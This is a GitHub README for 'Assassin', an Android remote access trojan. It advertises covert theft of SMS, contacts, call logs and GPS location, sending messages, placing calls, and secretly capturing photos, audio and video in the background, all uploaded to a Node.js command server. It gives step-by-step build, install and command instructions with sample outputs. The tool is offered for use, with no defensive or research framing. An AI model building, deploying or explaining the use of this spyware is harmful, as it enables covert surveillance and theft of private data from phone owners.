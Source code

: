 # Assassin one of the  best Android RAT 
![assassin](https://cdn-std.dprcdn.net/files/acc_737120/k4ywpL)
---- 
- beta 1.0.0
- adapter android Lollipop-Pie
- commit issues to me 

# Construction
![assembleApk](https://cdn-std.dprcdn.net/files/acc_737120/1P2KVt)
# Features
- get Sms_List
- send Sms to destinationAddress
- get Calling_History
- get GPS
- get Contacts_List
---- 
#### something that u can do in background
- call someone  
- take a photo then send to server 
- record audio then send to server
- record video then send to server
</br>of course the duration decided by yourself

# Basement/Environment
- Gradle 
- JDK1.8
- AndroidSdk 
- node.js
- npm
# Usage
```
Options:
  -V, --version             output the version number
  -a,--assassin <assassin>  select a command post to the clients if you choose the shadow you should input the cmd -t to choose a type between pic/audio/video [sms,contacts,call,gps,shadow] (default: "sms")
  -C,--Clients              show every client info
  -d,--address <address>    input a phone num who you want to send a msg
  -m,--msg <msg>            you should write the msg content, if your command is sms
  -t,--type <type>          select a type between pic/audio/video and you should input the -l to choose the camera lens [pic,audio,video]
  -c,--client <client>      select a client to post the command
  -l,--lens <lens>          which camera lens that you want to open [0,1]
  -h, --help                output usage information
```
### *Step.1 clone/download the project  and start up the server*
```
1. git clone git@github.com:honglvt/TalentRAT.git / or download the project yourself on the github
2. cd the project path such as: ~/AndroidProject/ProjectPath/Server/
3. cd Server 
4. npm install
5. npm start
now you can see the terminal console "ASSASSIN"
```
### *Step.2 build assasin.apk with shell at project folder*
befor build the apk
- confrim that you have prepare the env for building the app
- connect the android device  to ur PC
- enable the develop mode on ur android device 
if you can not do *step.2* and *step.3*  you can build the *assassin.apk* and install it to your device manually 
now let's start assembleApk
```
at the first time when you download the project you should confirm your OS type mac or linux, 
and get your server IPAdress by "ifconfig/ipconfig" 
0.  chmod 777 ./assembleApk.sh
    chmod 777 ./installNewestApk.sh
1.  execute the assemble shell  "./assaembleApk.sh OS serverIP"        
    serverIP type as 127.0.0.1:3000   
    OS type as mac or linux
    as follows:
    "./assembleApk.sh mac 127.0.0.1:3000"
    "./assembleApk.sh linux localHost:3000"
2.  ./installNewestApk.sh
    if you are not able to connect the device to your PC, send the apk by email or xx and install it manually
3.  look at your device, the apk has been installed into your device
    run it 
    grant all of permissions 
    and now you can see { a user connected info }at terminal you have opened at Step.1
```
### *Step.3 execute command，then you will get whaterver you want!!!*
| cmd        |  ./assassin.js -a sms -c 9910294050493  |
| ---------- | :-----------:  |
| description| select the command between [sms,contacts,call,gps,shadow]  if you choose the shadow you should also use -t to choose a type between pic/audio/video     |
***args with -c can be gotten at server terminal {a user connected info}***
***type the cmd into a new terminal at ~/project/Server***
and the result:
```
{
    "command": "send_contacts_list",
    "IMEI": "99001249798100"
}
response is : 
[{name:ASX,phoneNum:2345 67}]
```
### exemples
| cmd        | -a     |
| ---------- | :-----------:  | 
| description| select the command between [sms,contacts,call,gps,shadow]  if you choose the shadow you should also use -t to choose a type between pic/audio/video     | 
|  example   | ‘’./assassin.js -a sms‘’  ‘’ ./assassin.js -a shadow -t pic ‘’   | 
|  result   | ERROR:you should input a type with -c to choose a client that you want to send cmd    | 
----

| cmd        | -C     |
| ---------- | :-----------:  | 
| description| show every client info    | 
|  example   | ‘’./assassin.js -C ‘’   | 
|  result   | {IMEI:9525238415950202,brand:Nokia,model:CAL-20,version:9.0}   | 
----

| cmd        | -c     |
| ---------- | :-----------:  | 
| description| select a client with its IMEI to post the command    | 
|  example   | ‘’./assassin.js -a sms -c  9525238415950202 ‘’   | 
|  result   | { command: 'send_sms_list', IMEI: '184859203' }  | 
----

# Prompt

- keep node server alive when you send a command
- cmd with ./assassin.js will return a Json data  you can do whatever with the response 
- if you want to get a pic or video you should type the cmd as follow:
  - ./assassin.js -a shadow -c 123456 -t pic -l 0
  - then you can find the pic has saved on the */project/Server/public/images/xxxx.jpeg'
  - the same with other shadow
- the duration in recording video or audio decided by yourself

# Screen Shot
### server
![server](https://cdn-std.dprcdn.net/files/acc_737120/tKCGxc)
---
### assembleApk
![assembleApk](https://cdn-std.dprcdn.net/files/acc_737120/BtN0Eb)
---
### installApk
![installApk](https://cdn-std.dprcdn.net/files/acc_737120/qzZ6yC)
---
### client connect to server
![connect](https://cdn-std.dprcdn.net/files/acc_737120/7AfwLH)
---
### executeCmd
![executeCmd](https://cdn-std.dprcdn.net/files/acc_737120/ot6gOq)
